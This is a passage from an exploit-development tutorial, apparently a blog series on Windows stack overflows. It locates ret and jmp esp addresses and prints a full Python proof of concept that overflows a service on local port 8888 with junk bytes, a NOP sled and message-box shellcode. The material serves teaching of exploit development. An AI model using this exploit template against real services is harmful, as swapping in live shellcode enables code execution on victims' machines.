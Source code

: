 We have address for `ret=0x6eb41011`. To found `jmp esp`, I use another dll.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win13.png)

We got the bot address `ret=0x6eb41011` and  `jmp esp=0x61ffba23`. Final POC look like this:
```python
mport socket

target="127.0.0.1"
junk="A"*1052
ret="\x11\x10\xb4\x6e"       # 0x6eb41011 ret c3
jmp_esp="\x23\xba\xff\x61"   # 0x61ffba23 jmp esp ff e4
nop="\x90"*20                # NOPS

shellcode = ("\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7")

payload=junk+ret+jmp_esp+nop+shellcode

try:

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
Again we have a pop up BrokenByte.
